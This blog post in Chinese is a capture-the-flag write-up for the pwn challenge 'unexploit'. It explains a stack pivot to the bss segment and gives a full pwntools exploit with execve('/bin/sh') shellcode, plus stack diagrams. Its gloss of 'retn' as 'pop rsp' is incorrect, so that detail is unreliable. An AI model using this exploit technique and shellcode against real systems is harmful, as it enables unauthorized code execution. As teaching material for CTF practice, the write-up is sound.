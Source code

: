 ```yaml
---
layout: post
title: 安恒杯-unexploit
categories: pwn
tags: [pwn]
description: stack immigration
date: 2019-08-05
---
```


## Checksec unexploit

![img](/assets/images/2019-08-05-unexploit/unexploit2.png)

没开保护，NX没开，第一时间想到的就是写shellcode进去。

## ida分析

![img](/assets/images/2019-08-05-unexploit/unexploit1.png)

有一个栈溢出漏洞，但是只有**0x20**的空间。因此，可以用**栈迁移**。

## 一些汇编指令
```
leave:
    mov rsp,rbp   #将rsp指向rbp
    pop rbp   #将栈中保存的父栈帧的 %rbp 的值赋值给 %rbp，并且 %rsp 上移一个位置指向父栈帧的结尾处。
retn:
    pop rsp   #将当前的ESP中指向的地址出栈，JMP到这个地址。
```
**所以我们可通过覆写rbp来使栈迁移到bss段去，并利用read函数去写入shellcode，再去执行shellcode。**

## 先给出Exp
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = remote('101.71.29.5',10015)
#p = process('./unexploit')

elf = ELF('unexploit')
read_addr = 0x40068A
bss_addr = elf.bss()

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

payload1 = 'a'*8+p64(bss_addr-8)+p64(read_addr)+p64(0xdeadbeef)
payload2 = 'a'*8+p64(bss_addr+8)+p64(read_addr)+p64(0xdeadbeef)   #加上0xdeadbeef是为了填满0x20
payload3 = p64(bss_addr+8)+shellcode

p.send(payload1)
p.send(payload2)
p.send(payload3)
p.interactive()
```
### payload1
    mov rsp,rbp:
                        +-------------+
                        |  aaaaaaaa   |
                        +-------------+  
            rsp、rbp +->+  bss-0x8    |
                        +-------------+
                        |  read_addr  |
                        +-------------+
                        |  0xdeadbeef |
                        +-------------+

    pop rbp:
            +-------------+          +-------------+
            |  aaaaaaaa   |          |             |
            +-------------+          +-------------+
            |  bss-0x8    |    rbp+->+  bss-0x8    |
            +-------------+          +-------------+
      rsp+->+  read_addr  |          |  bss_start  |
            +-------------+          +-------------+
            |  0xdeadbeef |          |             |
            +-------------+          +-------------+

    pop rsp: 返回到read函数。

### payload2   
    mov rsp,rbp
    pop rbp:
                    +-------------+
                    |  aaaaaaaa   |
                    +-------------+
                    |  bss+0x8    |
                    +-------------+
              rsp+->+  read_addr  |<-+bss-start
                    +-------------+
              rbp+->+  0xdeadbeef |
                    +-------------+

    pop rsp:返回到read函数。

### payload3
    mov rsp,pbp
    pop rbp:
            +-------------+
            |  aaaaaaaa   |
            +-------------+
            |  bss+0x8    |
            +-------------+
            |  bss+0x8    |<-+bss-start
            +-------------+
      rsp+->+  shellcode  |
            +-------------+

    pop rsp:执行shellcode



